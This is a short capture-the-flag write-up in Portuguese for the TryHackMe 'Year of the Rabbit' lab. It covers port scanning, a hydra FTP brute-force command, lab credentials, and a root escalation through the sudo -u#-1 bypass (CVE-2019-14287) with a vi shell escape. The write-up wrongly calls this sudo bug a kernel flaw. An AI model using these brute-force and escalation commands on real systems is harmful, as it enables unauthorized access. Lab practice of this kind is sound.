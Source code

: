 # Year of the Rabbit
https://tryhackme.com/room/yearoftherabbit

## Identificando alvo
Rodando NMAP em todas as portas:

        PORT   STATE SERVICE VERSION
        21/tcp open  ftp     vsftpd 3.0.2
        22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.10 ((Debian))

Existe um arquivo http://10.10.22.61/sup3r_s3cr3t_fl4g.php que ao acessar o cabeçalho da resposta possui isso "intermediary.php?hidden_directory=/WExYY2Cv-qU"

Acessando a url http://10.10.22.61/WExYY2Cv-qU/ existe uma imagem que olhando seu hexadecimal possui o usuario ftp (ftpuser) e uma lista de senhas

Rodando o bruteforce:

```sh
hydra -l ftpuser -P hash.txt <IP> ftp
```
ftpuser:5iez1wGXKfPKQ

No serviço FTP existe um .txt criptografado (brainfuck). Ao decriptografar temos o usuario eli:DSpDiM1wAEwid para acessar o ssh.

## Privesc
Ao logar existe um banner dizendo de um arquivo s3cr3t escondido, então rodando:

```sh
find / -name s3cr3t 2>/dev/null
cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```
gwendoline:MniVCQVhQHUNI

Dando um *sudo -l* é possível ver os comandos que o usuario consegue rodar sem precisar da senha

        (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

O kernel do sistema é vulneravel a esta falha [2019-14287](https://www.exploit-db.com/exploits/47502). Então rodando

```sh
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
:!/bin/bash
```
GG
